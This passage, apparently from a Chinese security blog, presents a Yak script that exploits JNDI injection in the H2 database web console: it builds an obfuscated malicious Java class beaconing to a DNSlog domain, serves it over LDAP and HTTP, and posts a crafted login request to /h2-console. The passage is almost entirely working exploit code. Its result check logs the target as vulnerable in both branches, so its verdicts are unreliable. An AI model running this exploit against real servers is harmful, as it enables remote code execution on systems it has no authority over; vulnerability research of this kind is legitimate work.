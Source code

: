 使用Yso-Java Hack自动生成 "生成evalClassResource的代码"，并补充发包部分代码，最后得到  
```
target = cli.String("u")
domain,token = risk.NewDNSLogDomain()~
go fn{
    className = randstr(8)
    classObj,err = yso.GenerateDNSlogEvilClassObject(domain,yso.obfuscationClassConstantPool(),yso.evilClassName(className))
    if err {
        log.error("%v",err)
        return
    }
    evalClassResource,err = yso.ToBytes(classObj)
    if err {
        log.error("%v",err)
        return
    }
    facades.Serve("0.0.0.0", 8089,
        facades.ldapResourceAddr(className, "127.0.0.1:8089"), // 通过ldap://facades_server_address/class_name 访问会响应 从"127.0.0.1:8089"读取class的结构
        facades.httpResource(className, evalClassResource), // 通过http://facades_server_address/class_name 访问会响应 evalClassResource
    )
}

poc.HTTP(`POST /h2-console/test.do?jsessionid=ab50d353801ba9bf68a94edfd66413b4 HTTP/1.1
Host: {{p(target)}
Content-Type: application/x-www-form-urlencoded

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url={{p(addr)}}&user=sa&password=`, poc.params({
    "target":target,
    "addr":"127.0.0.1:8089",
}))
res,err = risk.CheckDNSLogByToken(token, 3)
if len(res) != 0{
    log.info("目标 %s 存在反序列化漏洞",target)
}else{
    log.info("目标 %s 存在反序列化漏洞",target)
    // log.info("目标不存在反序列化漏洞")
}
```  
```

```  
#   
  
**小结**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaArMrIlEiaf1nfKHRa2v3Picrdl67bkHxPutzkiaT5ibZIcACJo9gbzltgGw/640?wx_fmt=png&from=appmsg "")  
  
#   
  